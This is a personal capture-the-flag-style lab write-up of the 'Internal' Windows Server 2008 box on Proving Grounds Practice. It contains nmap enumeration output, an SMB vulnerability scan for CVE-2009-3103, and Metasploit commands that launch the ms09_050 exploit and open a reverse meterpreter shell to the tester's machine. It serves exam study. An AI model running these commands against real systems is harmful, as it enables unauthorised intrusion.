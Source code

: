 ```yaml
---
Date: 2024-10-23
Platform: PG-Practice
Category: Windows
Difficulty: Easy
Status: In progress
IP: 192.168.240.45
Writeup: https://systemweakness.com/internal-oscp-offensive-security-proving-grounds-practice-easy-9d9152adddc0
---
```

# Internal
These Windows boxes are getting more and more frustrating. This one I had four separate walkthroughs available and 5 different exploits I could run, and in the end I had to resort to Metasploit to catch a meterpreter shell. Even the Meterpreter shell was a pain in the ass - once I was in I knew I could navigate directly to the Administrator's desktop, but I had to type in each directory change one-by-one rather than going directly to the proof file.

At the moment this is all feeling very fucking frustrating, but I also know that this is a relatively small part of the actual exam - the likelihood that more than one of the stand-alone boxes will be Windows is very low, there's no doubt I'm doing well with Linux, and I know I'm fairly comfortable with AD. 

I've shown myself to be able to do this stuff, so for now just keep trying to break boxes and not lose your cool over how dumb all of this makes you feel - not because you are dumb, but because a whole of of this shit simply doesn't work properly, and you're still trying to figure it all out properly without trying to do it with one hand tied behind your back fixing shit. The temptation to create a whole new VM is very real at the moment, especially if it's from a completely fresh Kali image.

Having to revert the boxes so regularly is really doing my head in too - they absolutely should not be this unstable, but there doesn't seem to be any real way around it. For now I just have to keep working away on this stuff, learn whatever I can from each box (especially by taking these notes), and hope that things will improve later... or I can pass the exam based on the Linux and AD elements, and avoid this unstable Windows bullshit if I can.

# Resolution summary
- Ran Nmap to identify ports `53`,`135`, `139`, `445`, `3389` & `49152-8`
- Identified ports `139` & `445` as running `SMBv2`
- Identified vulnerable SMB version, ran `msfconsole`
- Setup `ms09_050_smb2_negotiate_func_index` exploit and received meterpreter shell
- Navigated to `C:\Users\Administrator\Desktop` and printed `proof.txt`
## Improved skills
- Windows service enumeration
- Testing and running exploits
## Used tools
- nmap
- python
- msfconsole

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Internal.nmap 192.168.240.45 -v
```

Enumerated open TCP ports:
```bash
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.0.6001 (17714650)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: INTERNAL
|   NetBIOS_Domain_Name: INTERNAL
|   NetBIOS_Computer_Name: INTERNAL
|   DNS_Domain_Name: internal
|   DNS_Computer_Name: internal
|   Product_Version: 6.0.6001
|_  System_Time: 2024-10-23T09:13:15+00:00
|_ssl-date: 2024-10-23T09:13:23+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=internal
| Issuer: commonName=internal
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-08-02T05:18:19
| Not valid after:  2025-02-01T05:18:19
| MD5:   8860:d793:b9ff:62cc:c9c9:8f28:43e0:8b12
|_SHA-1: 45e7:58e2:89db:45a3:1879:41ee:6d4c:6497:fe01:d1d8
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: internal
|   NetBIOS computer name: INTERNAL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-10-23T02:13:15-07:00
| smb2-time: 
|   date: 2024-10-23T09:13:15
|_  start_date: 2024-08-03T05:18:18
| nbstat: NetBIOS name: INTERNAL, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:5d:14 (VMware)
| Names:
|   INTERNAL<00>         Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  INTERNAL<20>         Flags: <unique><active>
|_clock-skew: mean: 1h24m00s, deviation: 3h07m49s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required
```
---
# Enumeration
## Port 53 - Domain (Microsoft DNS 6.0.6001)
No enumeration conducted
## Port 135 - MSRPC (Windows RPC)
No enumeration conducted
## Port 139 & 445 - SMB (Windows Netbios-SSN)
- Ran `sudo nmap --script smb-vuln* -p 139,445 192.168.240.45` to identify vulnerabilities in SMB, identified `SMBv2 exploit` (CVE-2009-3103)
![[Pasted image 20241023201127.png]]
## Port 3389 - SSL (MS WBT Server)
No enumeration conducted
## Port 5357 - HTTP (Microsoft HTTPAPI/2.0)
No enumeration conducted
## Ports 49152-8 - MSRPC (Windows RPC)
No enumeration conducted

---
# Exploitation
- Used `msfconsole` and identified `exploit/windows/smb/ms09_050_smb2_negotiate_func_index` as potential exploit for CVE-2009-3103. 
- Ran the following `msfconsole` commands to setup and run exploit before receiving meterpreter shell
```
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS 192.168.242.40
set LHOST 192.168.45.199
run
```
![[Pasted image 20241024175717.png]]
- Navigated `C:\Users\Administrator\Desktop\` and ran `cat proof.txt` to print `7ff8cdacb8d95f599362f06e5ce14394`

---
# Trophy & Loot
`proof.txt` = `7ff8cdacb8d95f599362f06e5ce14394`